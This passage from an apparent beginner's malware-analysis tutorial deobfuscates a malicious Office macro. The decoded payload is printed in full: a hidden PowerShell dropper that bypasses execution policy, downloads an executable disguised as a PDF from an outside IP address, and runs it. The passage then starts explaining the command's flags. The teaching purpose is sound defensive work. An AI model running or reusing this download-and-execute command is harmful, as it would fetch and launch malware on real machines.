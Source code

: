 Apply Two Find/Replace Operations: To clean up the obfuscated string, we’ll perform two Find/Replace operations:

- First Operation:
  - **Find**: `*`
  - **Replace**: (leave blank)
  - **Mode**: SIMPLE STRING
- Second Operation:
  - **Find**: `^`
  - **Replace**: (leave blank)
  - **Mode**: SIMPLE STRING

<img src="./Cybersecurity_101_screenshots/remnux02.jpg" width="800" alt="Screenshot 2"> <br>

Now, this is more readable! However, for our starters, this can be challenging. So, we will tackle the most basic commands here.

```bash 
"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
```
### Let’s Break It Down: Understanding the PowerShell Command

We’ve uncovered a **PowerShell command** embedded in the macro. Let’s analyze it step by step:

#### 🪟 `-WindowStyle Hidden`
This parameter controls how the PowerShell window appears during execution.

- `Hidden` means the window will **not be visible** to the user.
- This is a common technique used in **malware** to execute code silently in the background.

#### 🔐 `-ExecutionPolicy Bypass`
PowerShell includes an **execution policy** to prevent unauthorized scripts from running.
